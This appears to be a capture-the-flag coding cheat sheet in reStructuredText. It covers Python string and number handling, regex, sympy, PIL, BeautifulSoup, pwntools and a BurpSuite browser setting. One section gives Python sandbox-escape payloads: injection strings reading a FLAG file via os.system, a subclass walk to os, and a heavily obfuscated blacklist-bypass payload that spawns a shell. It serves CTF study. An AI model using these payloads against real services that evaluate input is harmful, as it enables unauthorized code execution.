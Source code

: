 ***********************
Coding Quick Reference
***********************

Python
======

Use python

* [::-1] means 

  Assumming a is a string. The Slice notation in python has the syntax -

 ::

  list[<start>:<stop>:<step>]

 So, when you do a[::-1] , it starts from the end, towards the first, taking each element. So it reverses a. This is applicable for lists/tuples as well.

 Example:

 ::

  >>> a = '1232'
  >>> a[::-1]
  '2321'

* binascii.unhexlify(hexstr) to convert hex to string
* base64.decodestring(str) to decode base64 string
* Convert number to hex

 :: 
    
     hex(15)
     '0xf'

* Convert hex to decimal

 ::

  s = "6a48f82d8e828ce82b82"
  i = int(s, 16)

* Extract numbers from a string: Use a regexp :

 ::

  >>> import re
  >>> re.findall(r'\d+', 'hello 42 I\'m a 32 string 30')
  ['42', '32', '30']

 This would also match 42 from bla42bla. If you only want numbers delimited by word boundaries (space, period, comma), you can use \b :

 ::

  >>> re.findall(r'\b\d+\b', 'he33llo 42 I\'m a 32 string 30')
  ['42', '32', '30']

* Extract string inside single quotes using python script

 Use re.findall:

 ::

  >>> import re
  >>> strs = """text:u'MUC-EC-099_SC-Memory-01_TC-25'
               text:u'MUC-EC-099_SC-Memory-01_TC-26'
            text:u'MUC-EC-099_SC-Memory-01_TC-27'"""

  >>> re.findall(r"'(.*?)'", strs, re.DOTALL)
  ['MUC-EC-099_SC-Memory-01_TC-25',
   'MUC-EC-099_SC-Memory-01_TC-26',
   'MUC-EC-099_SC-Memory-01_TC-27'
  ]

* ASCII value of a character in Python

 function ord() would get the int value of the char. And in case you want to convert back after playing with the number, function chr() does the trick.

 ::

  >>> ord('a')
  97

* Solving Algebraic equations using python: Use sympy
  Use solve() to solve algebraic equations. We suppose all equations are equaled to 0, so solving x**2 == 1 translates into the following code:

 ::

  >>> from sympy.solvers import solve
  >>> from sympy import Symbol
  >>> x = Symbol('x')
  >>> solve(x**2 - 1, x)
  [-1, 1]

  
 The first argument for solve() is an equation (equaled to zero) and the second argument is the symbol that we want to solve the equation for.

* AVL Tree Implementation in Python : `python-avl-tree <https://github.com/pgrafov/python-avl-tree>`_

* Convert all strings in a list to int
  So if we have:

 ::

  results = ['1', '2', '3']

 How do I make it:

 ::

  results = [1, 2, 3]

 
  Use the map function(in py2):
 
 ::
 
  results = map(int, results)
 
 In py3:

 ::

  results = list(map(int, results))

* Read the RGB value of a given pixel in Python?

 ::

  from PIL import Image
  im = Image.open("dead_parrot.jpg") #Can be many different formats.
  pix = im.load()
  print im.size #Get the width and hight of the image for iterating over
  print pix[x,y] #Get the RGBA Value of the a pixel of an image
  pix[x,y] = value # Set the RGBA Value of the image (tuple)
  im.save("alive_parrot.png") # Save the modified pixels as png

* Convert Text to Binary and back?
  
  ::

    >>> import binascii
    >>> bin(int(binascii.hexlify('hello'), 16))
    '0b110100001100101011011000110110001101111'

 In reverse:

 ::

    >>> n = int('0b110100001100101011011000110110001101111', 2)
    >>> binascii.unhexlify('%x' % n)
    'hello'

* function ord() would get the int value of the char. And in case you want to convert back after playing with the number, function chr() does the trick.

 ::

    >>> ord('a')
    97
    >>> chr(97)
    'a'
    >>> chr(ord('a') + 3)
    'd'

* Insert a newline character every 64 characters using Python

 ::

  s = "0123456789"*100 # test string
  import re
  print re.sub("(.{64})", "\\1\n", s, 0, re.DOTALL)

* Having a function where you can provide parameter in online webform? Like there is a function definition like def fun() where we can pass two arguments, that are interpreted.

  ::

   def fun(User_Input): 

       c = a + b
           return c


 Try

 ::

  1.   a,b=dir()[0]
  2.   a,b=print("Hello")
  3.   a,b=print(exec("import os"),eval("os.listdir('.')"))

  Cat a file?

  1.   a, b, c = __import__('os').system('cat FLAG')
  2.   a,b=print(open("FLAG", "r").read())

 The above should work fine till there are no blacklist wordlist provided.

 Let's craft a payload to bypass the blacklist.

 Create a string class (also works with list or dict)

 ::

  >>> ''.__class__
  <class 'str'>
 
 Now we need the parent class, there is two ways:
 
 ::

  >>> ''.__class__.__base__
  <class 'object'>
  >>> ''.__class__.__mro__
  (<class 'str'>, <class 'object'>)
  >>> ''.__class__.__mro__[1]
  <class 'object'>

 Now we have the object class. So we can access to all the child classes:

 ::

   >>> ''.__class__.__base__.__subclasses__()
   [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'moduledef'>, <class 'module'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class 'zipimport.zipimporter'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'importlib.abc.ResourceReader'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'rlcompleter.Completer'>]
 
 Let's find a more suitable way to access the subclasses by index:

 ::

  >>> for i,val in enumerate(''.__class__.__mro__[1].__subclasses__()):
  ...   print(i,': ',val)

 Using __init__ to initialize the class and __globals__ to access the global namespace of the module in which the function was defined.

 `pyjail WU <https://github.com/kimtruth/GoN-Write-up>`_ was able to call `sys` from `codecs.StreamReaderWriter` class.

 ::

  ''.__class__.__mro__[1].__subclasses__()[104]
  <class 'codecs.StreamReaderWriter'>`

 So from this namespace we are able to call sys.
 
 ::

  >>> ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"]
  <module 'sys' (built-in)>
 
 Then it's easy to import os:
 
 ::

  >>> ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"].modules["os"]
  <module 'os' from '/usr/lib/python3.7/os.py'>

 And finally using system method to launch a system command and read the flag:
 
 ::

  ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__["sys"].modules["os"].system("cat FLAG")


 However if "." and "__" are also blacklisted then we can use

 * Without . to call method, we can use getattr instead
 * Without __import__, we can use catch_warnings in {}.__class__.__base__.__subclasses__()

 ::

  {}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)] this will give me catch_warnings
  {}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)]()._module.__builtins__["__import__"]("os").system("sh") this will give me shell
 
 Then we just need to change . to getattr, and _ to dir(0)[0][0]
 Final payload :

 ::

  getattr(getattr(getattr(getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()[getattr([getattr(i, dir(0)[0][0]*2+"name"+dir(0)[0][0]*2) == "catch"+dir(0)[0][0]+"warnings" for i in getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()], "index")(True)](), dir(0)[0][0]+"module"), dir(0)[0][0]*2+"builtins"+dir(0)[0][0]*2)[dir(0)[0][0]*2+"imp"+"ort"+dir(0)[0][0]*2]("o"+"s"), "sy"+"stem")("sh")

BeautifulSoup
-------------


A tag may have any number of attributes. The tag <b id="boldest"> has an attribute “id” whose value is “boldest”. You can access a tag’s attributes by treating the tag like a dictionary:

tag['id']
# u'boldest'

You can access that dictionary directly as .attrs:

tag.attrs
# {u'id': 'boldest'}


and read the tag value using

print(tag.get('id'))

If you have something like

::

 <form id="form_product_page" name="form_1362737440" action="/download/791055/164084/" method="get">
<input id="nojssubmit" type="submit" value="Download" />
</form>

and want action value we can

::

 action = soup.find('form', id='form_product_page').get('action')


PwnTools
--------

Importing

::

 >>> from pwn import *

Making Connections

::

 conn = remote('ftp.ubuntu.com',21)

Receiving Lines

::

 conn.recvline() 
 conn.recvuntil(' ', drop=True)

Sending Lines

::

 conn.send('USER anonymous\r\n')
 conn.sendline('Hello')

Pwn Templates
^^^^^^^^^^^^^

`pwn template <https://github.com/Gallopsled/pwntools/pull/909>`_ command can be used for generating templates. 


ctypes 
------

A foreign function library for Python. It provides C compatible data types, and allows calling functions in DLLs or shared libraries. It can be used to wrap these libraries in pure Python. ctypes exports the cdll, and on Windows windll and oledll objects, for loading dynamic link libraries.



BurpSuite
=========

(1) In a new tab, type or paste about:config in the address bar and press Enter/Return. Click the button promising to be careful.

(2) In the search box above the list, type or paste captiv and pause while the list is filtered

(3) Double-click the network.captive-portal-service.enabled preference to switch the value from true to false
If you are in a managed environment using an autoconfig file, for example, you could use this to switch the default: 
user_pref("network.captive-portal-service.enabled", false);

